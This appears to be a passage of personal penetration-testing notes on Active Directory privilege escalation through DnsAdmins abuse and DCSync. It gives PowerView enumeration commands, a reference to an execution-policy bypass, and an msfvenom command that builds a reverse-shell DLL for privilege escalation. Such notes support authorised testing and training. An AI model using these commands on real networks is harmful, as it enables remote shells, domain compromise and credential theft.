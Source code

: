 Verify user is now part of DnsAdmins:
```
Get-DomainUser -Name $USER
```

Look at Group Members:
```
Get-DomainGroup -SamAccountName DnsAdmins
```

#### 83 Priv Esc - DnsAdmins

>NEEDS LOCAL ADMIN USER ACCESS

Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

![[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\PowerView.ps1
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$FIRST_WINDOWS_VICTIM LPORT=443 -f dll -o privesc.dll
```

#### 84 dcsync

>NEEDS LOCAL ADMIN USER ACCESS

Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

![[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\PowerView.ps1
```

```
Get-ForestGlobalCatalog
```

Here we need the DNS_DOMAIN_NAME values:

DC=pentesting,DC=local

Next, we need your user's SID:
```
Get-DomainUser -Name $USER
```

Copy the objectsid value == $SID

```
Get-ObjectAcl "DC=$NETBIOS_DOMAIN_NAME,DC=local" -ResolveGUIDS | ? {($_.ObjectAceType -like 'DS-Replication*') -and ($_.SecurityIdentifier -match '$SID')}
```
